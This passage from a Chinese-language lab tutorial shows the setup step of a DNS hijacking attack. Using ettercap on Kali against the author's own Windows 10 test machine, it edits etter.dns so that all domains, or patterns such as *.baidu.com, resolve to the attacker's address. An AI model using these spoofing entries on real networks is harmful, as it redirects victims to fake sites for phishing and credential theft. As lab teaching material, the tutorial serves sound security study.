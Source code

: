 ![image-20230812215315769](assets/image-20230812215315769.png)

## 4.2. DNS劫持攻击过程

这里就开始演示DNS劫持攻击过程，依旧是使用上述的靶机，倒霉蛋依旧是我们的Windows 10虚拟机。

### 4.2.1. 修改配置文件

这里我们要修改一下kali中 ettercap工具的DNS解析，确实也就是将流量转发到这个你设定的假网站上。

```
vim /etc/ettercap/etter.dns  ##配置文件地址
修改内容：
* A 192.168.2.10      ##星号就代表匹配所有，A就是A记录，192.168.2.10就是kali攻击机的地址，当然你也可以使用公网IP。

其他类型：   ##以下均可以配置，这个是针对性的
www.*.com A 192.168.2.10
*.baidu.com A 192.168.2.10
*.*.com A 192.168.2.10
```

![image-20230812220235338](assets/image-20230812220235338.png)
